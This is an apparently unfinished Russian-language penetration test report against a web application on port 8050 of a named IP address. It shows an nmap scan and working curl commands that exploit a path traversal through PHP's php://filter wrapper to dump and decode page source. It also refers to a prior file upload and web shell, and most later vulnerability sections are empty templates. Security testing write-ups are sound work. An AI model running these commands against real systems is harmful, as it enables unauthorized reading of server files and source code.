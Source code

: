 ___

```
nmap -A -sV --version-all -O -p 8050 --reason -T4 --defeat-rst-ratelimit 92.51.39.106
```

___

<details>
<summary>screenshot Nmap(8050)</summary>
  
![](screenshots/SCANNING/nmap/nmap_8050.png)

</details>

___

`8050`.

___

[NmapReport_8050](reports/nmap/nmap_report.txt)

___





### 2. Vulnerability - Path Traversal

**OWASP:** [A01:2021-Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)

**Уровень риска:** Высокий

**Целевая страница:** `http://92.51.39.106:8050/admin/index.php?page=home`

**Краткое описание:**

Существует возможность взаимодействия с файловой системой, включая доступ к файлам на хосте и исходному коду веб-страниц.

**Реализация:**

<details>
<summary>Пошаговая реализация</summary>

- **Step 1. Структура файловой системы**
    
Ранее реализовав уязвимость **Unrestricted File Upload**, удалось получить представление о структуре файловой системы на сервере.

![](screenshots/TESTING/Path_Traversal/8050/dir_wso.png)

- **Step 2. Получение исходного кода страницы**

Для примера возьмем страницу `/include/admins`, которую удалось обнаружить в директории сервера.
    
Сервер не дает прямого доступа к исходному коду, необходимо выгрузить его в формате **base64**.
    
Для выгрузки исходного кода воспользуемся инструментом `curl` + **base64-encode**.
    
```
curl "http://92.51.39.106:8050/admin/index.php?page=php://filter/read=convert.base64-encode/resource=../include/admins"
```

![](screenshots/TESTING/Path_Traversal/8050/without_decode.png)
   
- **Step 3. Декодирование кода**

Далее при помощи все того же `curl`, декодируем исходную страницу.

```
curl "http://92.51.39.106:8050/admin/index.php?page=php://filter/read=convert.base64-encode/resource=../include/admins" -s | base64 -d
```

![](screenshots/TESTING/Path_Traversal/8050/with_decode.png)

- **Вывод**
    
Исходный код страницы получен, **уязвимость подтверждена**.

Исходный код страницы `/include/admins` : [admins](other/code/admins_code.txt).

</details>

**Рекомендации по устранению:**

___

### 3. Vulnerability - Weak Admin Password

**OWASP:** [A07:2021-Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)

**Уровень риска:**

**Целевая страница:**

**Краткое описание:**

**Реализация:**

**Рекомендации по устранению:**

___

### 4. Vulnerability - Insecure Transmission of Sensitive Data

**OWASP:** [A02:2021 – Cryptographic Failures](https://owasp.org/Top10/A02_2021-Cryptographic_Failures/)

**Уровень риска:**

**Целевая страница:**

**Краткое описание:**

**Реализация:**

**Рекомендации по устранению:**

___

### 5. Vulnerability - SQL Injection

**OWASP:** [A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/)

**Уровень риска:**

**Целевая страница:**

**Краткое описание:**

**Реализация:**

**Рекомендации по устранению:**

___

### 6. Vulnerability - Brute Force Attack 

**OWASP:** [A07:2021-Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)

**Уровень риска:**

**Целевая страница:**

**Краткое описание:**

**Реализация:**

**Рекомендации по устранению:**

___

### 7. Vulnerability - Cross-Site Scripting (XSS)

**OWASP:** [A03:2021-Injection](https://owasp.org/Top10/A03_2021-Injection/)

**Уровень риска:**

**Целевая страница:**

**Краткое описание:**

**Реализация:**

**Рекомендации по устранению:**

___

### 8. Vulnerability - Session Hijacking Attack 

**OWASP:** [A07:2021-Identification and Authentication Failures](https://owasp.org/Top10/A07_2021-Identification_and_Authentication_Failures/)

**Уровень риска:**

**Целевая страница:**

**Краткое описание:**

**Реализация:**

**Рекомендации по устранению:**

